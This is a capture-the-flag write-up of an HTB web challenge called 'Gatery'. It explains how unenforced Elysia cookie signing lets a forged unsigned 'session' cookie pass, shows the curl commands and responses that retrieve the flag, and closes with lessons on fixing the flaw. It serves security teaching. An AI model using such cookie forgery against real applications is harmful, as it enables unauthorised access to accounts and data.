


# Gatery

**Event:** HTB Cyber Apocalypse 2026
**Category:** Web
**Difficulty:** Very Easy
**Target:** `http://154.57.164.72:31763/`
**Mentored via:** a custom fork of [0xdf](https://gitlab.com/0xdf/htb-ai-mentor/-/tree/main)'s Socratic HTB-mentoring skill

Gatery is a very easy web challenge styled as a top-down pixel game: Lysa Harrowmere must sneak past a guarded castle gate to deliver evidence to an ally inside. The UI (a canvas game) makes it look like reaching the flag requires walking through a gate and past guards, but the whole game layer is cosmetic — the app's Elysia/Bun backend exposes a small set of `/api/` routes directly, and the entire access-control model reduces to a single unsigned cookie value the server never actually verifies.

## Enumeration



The app is served through nginx, which proxies `/api/` to a Bun+Elysia backend on `127.0.0.1:3000` and serves the game's static build otherwise (`config/nginx.conf`). Source was provided (`challenge/app/index.ts`), exposing six routes:

- `GET /api/me`
- `POST /api/login`
- `POST /api/logout`
- `POST /api/gate/open`
- `POST /api/gate/enter`
- `POST /api/flag`

Walking toward the gate triggers a login overlay:



First instinct was to try default creds against the login form:

```bash
curl -X POST http://154.57.164.72:31763/api/login -d '{"username":"admin","password":"admin"}'
```

Result: `401 Unauthorized`. Looking at `index.ts` explains why — the real admin password is generated at server boot via `randomBytes(24).toString('base64url')` and never persisted anywhere reachable, so credential guessing against `/api/login` is a dead end by design.

### Reading the Session Logic

Every protected route (`/api/me`, `/api/gate/enter`, `/api/flag`) gates on one thing only — the value of a `session` cookie:

```ts
.post('/api/flag', ({ cookie: { session }, set }) => {
    if (!session.value) {
      set.status = 401
      return { ok: false, message: 'Login required' }
    }
    if (session.value !== 'inside') {
      set.status = 403
      return { ok: false, message: 'Enter the castle first' }
    }
    return { ok: true, flag }
})
```

The cookie is only ever set to two literal strings, `'admin'` (via `/api/login`) or `'inside'` (via `/api/gate/enter`). The app also configures cookie signing at the top level:

```ts
const app = new Elysia({
  cookie: {
    secrets: [sessionSecret],
    sign: [sessionCookie]
  }
})
```

That configuration only takes effect on a route if the route declares a typed cookie schema (`t.Cookie(..., { sign: [...] })`) — none of the six routes here do. That meant the "signed" cookie was never actually being unsigned/verified on the way in; each handler just reads `cookie.session.value` as a raw string.

## Cookie Forgery: the Server Trusts Whatever You Send

Tested the hypothesis directly — send a `session` cookie the server never issued, with no valid signature, and see if the raw string alone is enough:

```bash
curl -i http://154.57.164.72:31763/api/me -H "Cookie: session=admin"
```
```text
{"authenticated":true,"user":{"username":"admin","role":"admin"},"gateOpen":true,"insideGate":false}
```

```bash
curl -i http://154.57.164.72:31763/api/me -H "Cookie: session=inside"
```
```text
{"authenticated":true,"user":{"username":"admin","role":"admin"},"gateOpen":true,"insideGate":true}
```

Both forged values were accepted with zero prior authentication — no login, no gate/enter call, just a client-supplied cookie header. This confirmed the "signed cookie" was decorative: the secret (`randomBytes(32)`, generated at boot and never exposed) was irrelevant, because nothing ever checked a signature against it.

## Flag

Since the server accepts `session=inside` outright, the intermediate `/api/gate/enter` step (and the entire in-game walk-to-the-gate sequence) can be skipped — go straight to the protected endpoint:

```bash
curl -X POST http://154.57.164.72:31763/api/flag -H "Cookie: session=inside"
```
```text
{"ok":true,"flag":"HTB{w3lc0me_b3y0nd_th3_g4t3_0183a26b288cce8737f1007373f07ef0}"}
```

**Flag:** `HTB{w3lc0me_b3y0nd_th3_g4t3_0183a26b288cce8737f1007373f07ef0}`

## Lessons Learned

- Configuring `secrets`/`sign` on an Elysia instance sets up the *capability* to sign cookies — it does nothing by itself. Verification only happens on routes that declare a typed cookie schema (`t.Cookie({ session: ... }, { sign: ['session'] })`); every route here skipped that, so `cookie.session.value` was just an unauthenticated client-supplied string.
- The game's client-side gating (`gateOpen`, `insideGate`, the walk-to-the-gate animation) is pure UX — it has no bearing on what the server actually enforces. Always test the raw API directly instead of only through the front-end flow; it revealed that the "walk through the gate, then talk to the NPC" sequence implied by the UI wasn't required at all — the target endpoint (`/api/flag`) could be hit directly.
- A role marker being a plain string (`'admin'`, `'inside'`) isn't itself the bug — trusting an unsigned client-controlled value *as if* it were signed is. The fix isn't obscuring the string, it's actually verifying the signature on every read.
